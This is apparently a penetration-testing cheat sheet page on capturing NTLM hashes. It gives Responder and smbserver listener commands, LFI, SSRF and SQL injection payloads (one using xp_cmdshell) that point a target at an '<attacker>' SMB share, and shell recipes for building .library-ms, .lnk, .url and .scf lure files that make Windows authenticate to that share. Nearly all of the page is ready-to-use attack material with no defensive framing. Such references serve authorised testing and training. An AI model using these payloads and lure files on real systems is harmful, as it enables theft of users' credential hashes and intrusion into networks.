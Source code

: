 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# Capturing NTLM

## Listener

```sh
sudo responder -I <interface>
```

```sh
smbserver.py share /dev/null -smb2support
```

## Possible Attacks

### Via web vulnerability

If you discover a web vulnerability (such as LFI, SQLI, XXE, SSRF, SSTI) that allows you to include remote files, you can exploit it to steal the NTLM hash of the user running the process. For example:

```sh
# LFI
?page=\\<attaker>\shared

# SSRF
?url=file:////<attaker>/shared

# SQL Injection
?id=1' union select null,load_file('\\\\<attaker>\\shared'),null-- -
?id=1' union select null,(select x from OpenRowset(BULK '\\<attaker>\shared',SINGLE_CLOB) R(x)),null-- -
?id=1' union select null,(EXEC xp_cmdshell 'dir \\<attaker>\shared'),null-- -
```

### Via .library-ms file

```sh
cat > \!shared.library-ms <<EOF
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <simpleLocation>
        <url>\\\\<attacker>\\shared</url>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
EOF
```

### Via .lnk file

```sh
pylnk3 c '\\<attacker>\shared' \!shared.lnk -i '\\<attacker>\shared\icon.ico'
```

### Via .url file

```sh
cat > \!shared.url <<EOF
[InternetShortcut]
URL=\\\\<attacker>\\shared
IconIndex=1
IconFile=\\\\<attacker>\\shared\\icon.ico
EOF
```

### Via .scf file

```sh
cat > \!shared.scf <<EOF
[Shell]
Command=2
IconFile=\\\\<attacker>\\shared\\icon.ico
[Taskbar]
Command=ToggleDesktop
EOF
```
